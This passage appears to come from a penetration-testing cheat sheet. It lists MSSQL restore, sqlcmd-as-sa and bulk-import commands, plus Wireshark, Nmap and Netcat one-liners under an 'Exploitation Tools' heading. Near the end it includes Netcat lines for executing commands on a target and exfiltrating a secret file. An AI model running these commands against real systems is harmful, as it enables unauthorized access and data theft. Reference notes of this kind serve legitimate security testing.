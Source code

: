     ```sql
    RESTORE DATABASE [dbname] FROM DISK = 'C:\backups\dbname.bak' WITH REPLACE;
    ```
*   **Executing SQL Script:** Executes a script file containing multiple SQL commands.

    ```bash
    sqlcmd -S <target_ip>,1433 -U sa -P '<password>' -i script.sql
    ```
*   **Bulk Data Import:** Imports data from a CSV file into a table.

    ```sql
    BULK INSERT [tablename] FROM 'C:\data\datafile.csv' WITH (FIELDTERMINATOR = ',', ROWTERMINATOR = '\n');
    ```

### Exploitation Tools

#### \[\[Metasploit]]

#### \[\[Wireshark]]

*   **Wireshark Packet Capture:**

    ```bash
    wireshark -i <interface> -f "tcp port <port>"
    ```

#### \[\[Nmap]]

*   **Basic Nmap Scan:** Scan target on specified port to verify if service is on.

    ```bash
    nmap <target_ip> -p <target_port>
    ```

#### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> <target_port>
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> <target_port> -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> <target_port>
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> <target_port> < secret_data.txt
    ```
